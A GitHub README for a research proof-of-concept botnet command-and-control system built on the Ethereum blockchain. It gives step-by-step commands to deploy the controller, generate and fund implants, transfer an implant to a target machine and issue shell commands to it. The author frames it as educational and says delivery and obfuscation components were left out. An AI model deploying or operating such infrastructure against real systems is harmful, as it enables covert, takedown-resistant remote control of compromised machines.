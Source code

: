 # About
This is a POC fully functional C&C infrastructure on top of the public Ethereum network. The POC demonstrates a novel channel for implant and controller communication. By leveraging the blockchain as intermediate, the infrastructure is virtually unstoppable, dealing with most of the shortcoming of regular malicious infrastructures. Namely:
- Secure communications – Immune to data modifications, eavesdropping, MITM, replay attacks (V)
- High availability – node can always find the C&C (V)
- Scalable – Can support any number of implants and any load of transactions. (VX)
- Authentication – Only valid implants can connect, And only once. Resist replays, honeypotting. (V)
- Anonymity – No info can be gained on network operators. (V)
- Zero data leakage – No data can be gathered on other implants, data or network structure. (V)
- Takedown resistant – No single point of failure. Fully TNO. (V)
- Takeover resistant – No vulnerabilities or logic path that allows adversarial control of network. (V)
- Low operational costs (X)

[For more details see the research paper on our wiki (TBA)](https://github.com/platdrag/UnblockableChains.wiki.git)

Demo:

[![DEMO](https://img.youtube.com/vi/82BalW09F54/0.jpg)](https://www.youtube.com/watch?v=82BalW09F54)

Contract is written in solidity, controller and implant code in python (using web3.py)

# Disclaimer
This project was created for Educational and Research purposes only. Its only purpose is to educate the security community of new and possibly emerging vector that attackers might use in the future. Illegal use of this and its variants or inclusion of it in illegal activities is not encouraged by its author (and was activly discouraged by removing some key components, see what is not included section).  

# Features
- Controller panel
- Autorun & sync geth node
- Private / Rinkeby testnet / Mainnet work modes
- Contract deployment
- Wallet generation
- Implant generation
- Access management
- Send commands, execute, and return results from implants
- Fund transfers

### What is not included (yes, on purpose)
- Implant packaging, obfuscating and delivery
- Industry grade Encrpytion
- MachineId code


# Installation
Runs on linux or Windows 10 (with linux subsystem installed) only.

`git clone https://github.com/platdrag/UnblockableChains`
`cd UnblockableChains`
`python3 -m venv .\venv`
Windows: `venv\Scripts\activate.bat`
Linux: `venv\Scripts\activate`
`pip install -r requirements.txt`

### Dependencies
- see requirements.txt

# Usage - Windows

`set PYTHONPATH=.\src`
`python src\Server\DeployUnstoppableCnC.py .`

Runs the deployment script to initiate the controller backend. It will generate owner account, run a local full geth node, deploy the smart contract and create all necessary configuration to run controller UI.

`python -i src\Server\ServerCommands.py  .`
`python >> clientAddress, clientConfTemplate = sc.generateNewClientInstance(opj('conf','clientGen', 'ClientConf.TEMPLATE.yaml'),fundValue=1000000000000000000, port=30304)`


# Usage - Command line (Linux)
Note: For windows just replace / with \ in paths

Edit the deployment script (optional) at `conf/deployment/DeploymentConf.BASE.yaml`

Run the server bootstrap script. It will generate owner account, run a local full geth node, deploy the smart contract and create all necessary configuration to run controller UI. Optional:

`export PYTHONPATH=./src && python3 src/Server/DeployUnstoppableCnC.py .`

Run the server in interactive mode & use the `sc` object to issue commands:

`python3 -i src/Server/ServerCommands.py .`

* Available commands: generateNewClientInstance, allowInstance, removeInstance, addWork, fundTransfer

Generate a new bot client instance:

`>>> sc.generateNewClientInstance(1000000000000000000,opj('conf','clientGen', 'ClientConf.TEMPLATE.yaml'), port=30304)`

Note the generated wallet address. Implant will be placed under `./generated/<GeneratedWalletAddress>`
Transfer the implant to destination machine and run it:

`export PYTHONPATH=./src && python3 -i ./src/Client/ClientCommands.py . ./conf/clientConf.yaml`

Client will run its own node, contact the contract and register with it. If successful, it will start a listener for incoming commands.

Once client has registered, back on the server side use interactive shell to add work to the client:

``` 
>>> sc.addWork('0xa55be06a805566d480103cea559c4d1bc3f729d2', 'echo awesome')
// ... log output
... confirmed match between instance issued command and result: ['echo awesome', 'awsome']
```

### Usage - web UI
Run the deployment script as described above
Create `static/`, `templates` dir symlinks:

`ln -s src-webapp/static .`
`ln -s src-webapp/templates .`

Run the webapp:

`export PYTHONPATH=src`
`python3 src-webapp/ecnc-webapp.py`

Access `http://127.0.0.1:5000/`

Generate one or more implants

Run client nodes as described above

Wait for the clients to register

Add/rm clients from index

Run shell commands on index-included clients 



# Todos (Future work)
- Implement public key encryption
- Split fund to generated implant to a small fee up front that will suffice only registration and then transfer the rest after registration.
- Support multiple contract addresses
- Support placing command/result data to Swarm, only put hash on blockchain. 
- Allow Transfer messages using whisper
- Allow controller the return funds from a compromised implant account.
